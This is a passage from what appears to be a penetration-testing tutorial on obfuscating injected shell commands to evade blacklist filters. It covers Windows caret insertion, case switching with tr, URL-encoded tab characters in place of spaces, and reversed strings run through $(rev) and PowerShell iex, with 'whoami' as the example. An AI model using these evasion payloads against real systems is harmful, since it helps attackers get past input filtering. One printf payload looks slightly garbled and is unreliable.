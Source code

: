 #### Windows only

There are also some Windows-only characters we can insert in the middle of commands that do not affect the outcome, like a caret (`^`) character, as we can see in the following example:

```cmd-session
who^ami
```


### Case manipulation

One command obfuscation technique we can use is case manipulation, like inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`).

```powershell
WhOaMi
```

However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

There might be some issues with the above payload. Blank spaces can be filtered. To bypass it, we will change the blank spaces for the TAB url encoded characters `%09`:

```bash
$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```

There are many other commands we may use for the same purpose, like the following:

```bash
$(a="WhOaMi";printf%09%$(tr%09%'!-}'%09%'"-~'<<<$)s%09%"${a,,}")

$(a="WhOaMi";printf %s "${a,,}")

```


### Reverse commands

Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

```bash
# To execute whoami:
$(rev<<<'imaohw')
```


The same can be applied in `Windows.` We can first reverse a string, as follows:

```powershell
 iex "$('imaohw'[-1..-20] -join '')"
```
